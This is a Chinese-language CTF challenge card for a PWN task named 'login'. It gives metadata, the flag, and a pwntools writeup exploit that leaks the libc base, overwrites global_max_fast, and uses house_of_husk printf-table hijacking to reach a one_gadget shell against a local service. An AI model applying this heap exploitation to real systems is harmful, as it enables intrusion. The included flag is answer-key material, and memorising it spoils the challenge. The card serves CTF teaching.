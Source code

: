 - **题目名称：** login    （视决赛解题情况而放）
- **题目类型：** PWN  （决赛）
- **题目难度：** 中等偏下(?)
- **出题人：** i-Corner
- **考点：**

1. IO or house_of_husk
1. 检索+耐心

- **描述：** ez题，签到题，login题，你懂我意思吧？
- **flag：** XSCTF{C0ngratulati0n_u_are_the_real_her0}
- **Writeup：**

```python
from pwn import *
#p = process("./login")
#p = process(["./pwn"],env={"LD_PRELOAD":'./libc-2.27.so'})
#gdb.attach(p)
#pause()
p = remote("0.0.0.0",10001)
context.log_level='debug'
#define MAIN_ARENA       0x3ebc40
#define MAIN_ARENA_DELTA 0x60
#define GLOBAL_MAX_FAST  0x3ed940
#define PRINTF_FUNCTABLE 0x3f0738
#define PRINTF_ARGINFO   0x3ec870
#ARGTABLE_Size = (0x3ec870-0x3ebc40)*2 - 0x10 = 0x1850
#FUNCTABLE_Size = (0x3f0738-0x3ebc40)*2 - 0x10 = 0x95e0
# use python to calculate

p.sendlineafter("What size of a pig you want?\n",str(0x1850)) 

p.sendlineafter("Wow! You can get a new size of a pig!",str(0x95e0)) #local 


libc_base = u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))-0x3ebca0
global_max_fast = libc_base + 0x3ed940
print('libc:',hex(libc_base))
print('global_max_fast',hex(global_max_fast))

#p.sendafter("New name:",b'/bin/sh\x00'+p64(global_max_fast-0x10))
p.sendafter("New name:",b'a'*0x8+p64(global_max_fast-0x10))
p.sendlineafter("Which one?\n",'1')
#gdb.attach(p)
one_gadget = 0x10a2fc+libc_base
#gdb.attach(p)
#pause()

p.sendafter("Feed what?",b'a'*((ord('s')-2)*8)+p64(one_gadget))

# when call printf('%s') then getshell 
p.interactive()


```
